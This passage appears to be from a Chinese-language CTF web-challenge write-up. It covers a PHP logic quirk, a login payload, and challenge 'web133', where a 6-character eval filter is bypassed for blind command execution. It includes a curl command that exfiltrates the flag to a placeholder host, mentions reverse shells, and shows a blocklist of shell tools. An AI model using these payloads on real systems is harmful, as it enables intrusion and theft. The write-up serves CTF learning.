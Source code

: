 ```
<?php
if(false && false || true){
	echo "true!";
}else{
    echo "false!";
}
?>

//返回结果为true
```

**payload**

```
?code=admin&password=admin&username=admin
```



### web133

```
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

```
get传参   F=`$F `;sleep 3
经过substr($F,0,6)截取后 得到  `$F `;
也就是会执行 eval("`$F `;");
我们把原来的$F带进去
eval("``$F `;sleep 3`");
也就是说最终会执行  `   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
前面的命令我们不需要管，但是后面的命令我们可以自由控制。
这样就在服务器上成功执行了 sleep 3
所以 最后就是一道无回显的RCE题目了
```

无回显我们可以用反弹shell 或者curl外带 或者盲注
 这里的话反弹没有成功，但是可以外带。

```
curl  http://xxx:4567?p=`tac f*`
```

当然要是没有公网ip的话，bp也可以帮到我们这个忙

**payload**
